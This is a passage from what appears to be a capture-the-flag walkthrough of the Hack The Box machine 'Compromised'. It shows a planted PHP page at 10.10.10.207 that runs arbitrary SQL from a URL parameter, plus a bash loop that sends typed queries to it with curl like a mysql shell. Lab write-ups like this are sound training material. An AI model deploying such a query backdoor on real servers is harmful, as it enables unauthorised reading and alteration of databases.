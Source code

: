 This should result in our page being uploaded to `http://10.10.10.207/shop/vqmod/xml/query.php`. We can test the functionality by going to `http://10.10.10.207/shop/vqmod/xml/query.php?q=show%20tables;`. If this is successful, it should run a query against the database to return a list of the tables.

![](/assets/images/htb-compromised/12_compromised_query.php.png)

Success! We now have the ability to query the database over http. This is great, but is not ideal. Querying and browsing the database will take a while using the browser, and it looks mostly terrible. However, we can put together a little bash script to make this a little simpler.

Save the following bash script as query.sh in your wokring directory.

``` bash
#!/bin/bash

cmd=''
while [[ $cmd != 'exit' ]];
do
        read -p '$ > ' cmd
        curl -G http://10.10.10.207/shop/vqmod/xml/query.php --data-urlencode "q=$cmd" --output -
done
```

When we run this script, it will enter a loop, waiting for us to provide input, and when we push enter, it will query the database, return the results and wait for the next query. This will function similar to having access to the mysql CLI.

Give the script execute access with the following command.

``` bash
chmod +x query.sh
```

And then simply run the script...

``` bash
./query.sh
```
